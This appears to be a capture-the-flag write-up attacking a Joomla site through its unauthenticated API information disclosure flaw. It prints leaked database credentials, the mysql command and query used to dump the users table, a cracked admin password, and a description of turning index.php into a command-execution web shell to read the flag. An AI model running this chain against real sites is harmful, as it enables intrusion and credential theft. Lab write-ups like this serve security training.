








Challenge was a Joomla web application that has Unauthenticated information disclosure vulnerability. And port 3306 was accessible from public internet.

https://www.exploit-db.com/exploits/51334



```
{"links":{"self":"http:\/\/34.142.135.231\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"501","attributes":{"id":501,"name":"Me","username":"admin","email":"admin@localhost.com","block":0,"sendEmail":0,"registerDate":"0000-00-00 00:00:00","lastvisitDate":"0000-00-00 00:00:00","lastResetTime":"0000-00-00 00:00:00","resetCount":0,"group_count":1,"group_names":"Super Users"}}],"meta":{"total-pages":1}}
```




```
{"links":{"self":"http:\/\/34.142.135.231\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/34.142.135.231\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/34.142.135.231\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=100&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br> Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Joomla!","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":0,"id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"frontediting":1,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"jdbuser","id":224}},{"type":"application","id":"224","attributes":{"password":"dbupass7CHwJiqzc7RNoM9gxoGu","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla_400","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"secplayground_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}},{"type":"application","id":"224","attributes":{"dbsslkey":"","id":224}},{"type":"application","id":"224","attributes":{"dbsslcert":"","id":224}}],"meta":{"total-pages":6}}
```

Now I gain a Database username, Password and database name.

```
User: jdbuser
Password: dbupass7CHwJiqzc7RNoM9gxoGu
Databasename: joomla_400
```

```
mysql -h 34.142.135.231 -u jdbuser -p -P 3306
```

```
use joomla_400;
select * from secplayground_users;
```



Crack the password hash with https://crackstation.net/ then login to administrator page.



```
qweasd
```



I edit the index.php to recieve for GET parameter cmd. Then execute system command.



After enumeration, I found a flag.txt file in /tmp directory.



```
web{KLdyHNvRzV}
```


